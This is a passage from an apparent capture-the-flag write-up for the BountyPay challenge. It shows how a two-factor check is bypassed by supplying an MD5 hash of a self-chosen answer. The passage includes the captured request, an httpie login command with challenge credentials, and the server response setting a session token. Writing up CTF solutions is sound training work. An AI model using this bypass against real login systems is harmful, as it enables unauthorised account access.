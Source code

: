 ### Bypassing 2FA

Let's analyze the request being sent when submitting the challlenge answer:

```HTTP
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 108
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4079.0 Safari/537.36 autochrome/orange
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

username=brian.oliver&password=V7h0inzX&challenge=8718040845a881ff0da135418b2811b2&challenge_answer=V7h0inzX
```

We can see that there is an extra parameter named `challenge` . The value appears to be an MD5 hash. The hash is different after each login request. After a bit of trial and error we can guess that the `challenge` should be an MD5 hash of the `challenge_answer`. When this is the case we can successfully login ! 🥳

```
http -f post https://app.bountypay.h1ctf.com \
username=brian.oliver \
password=V7h0inzX \
challenge=5828c689761cce705a1c84d9b1a1ed5e \
challenge_answer=bD83Jk27dQ
```

```HTTP
HTTP/1.1 302 Found
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Thu, 04 Jun 2020 16:51:11 GMT
Location: /
Server: nginx/1.14.0 (Ubuntu)
Set-Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9; expires=Sat, 04-Jul-2020 16:51:11 GMT; Max-Age=2592000
Transfer-Encoding: chunked
```
